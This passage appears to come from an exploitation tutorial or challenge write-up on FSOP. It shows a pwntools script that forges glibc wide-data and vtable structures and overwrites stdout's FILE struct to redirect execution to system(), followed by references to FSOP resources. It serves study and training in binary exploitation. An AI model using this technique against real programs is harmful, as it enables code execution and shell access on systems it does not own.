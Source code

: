 ```py
env = {}
io = start()

fake_wide_vtable = elf.bss(0x400)
# Create overlapping fake _IO_wide_data struct and fake _wide_vtable @ bss+0x400
payload = b""
# doing this ensures both fp->_wide_data->_IO_write_base and
# fp->_wide_data->_IO_buf_base is set to NULL
payload = payload.ljust(0x68, b"\x00")
payload += p64(libc.sym["system"])  # _wide_vtable+0x68, which is also fp->_wide_data->_codecvt
payload = payload.ljust(0xe0, b"\x00")
payload += p64(fake_wide_vtable)  # fp->_wide_data->_wide_vtable

aaw(fake_wide_vtable, payload)

# Overwrite _IO_2_1_stdout_ vtable to call _IO_wfile_overflow
fs = FileStructure()
fs.flags = u32(b"dash")
fs.fileno = 1
fs._lock = libc.sym["_IO_stdfile_1_lock"]
fs._wide_data = fake_wide_vtable
# 0x38 is the function offset inside vtable
# 0x18 is __overflow offset for _IO_jump_t
fs.vtable = libc.sym["_IO_wfile_jumps"] - 0x38 + 0x18
payload = bytes(fs)
aaw(libc.sym["_IO_2_1_stdout_"], payload)

io.interactive()
```

## References

- <https://pwn.college/software-exploitation/file-struct-exploits>
- <https://github.com/un1c0rn-the-pwnie/FSOPAgain>
- <https://faraz.faith/2020-10-13-FSOP-lazynote/>
- <https://niftic.ca/posts/fsop/#known-exploitation-techniques>
- <https://docs.pwntools.com/en/stable/filepointer.html#module-pwnlib.filepointer>


[^no-read]: Default for `fopen(filepath, "r")` or achievable by `_flag & (~_IO_NO_READS)`
[^no-write]: Default for `fopen(filepath, "w")` or achievable by `_flag & (~_IO_NO_WRITES)` (`_IO_NO_WRITES = 0x8`)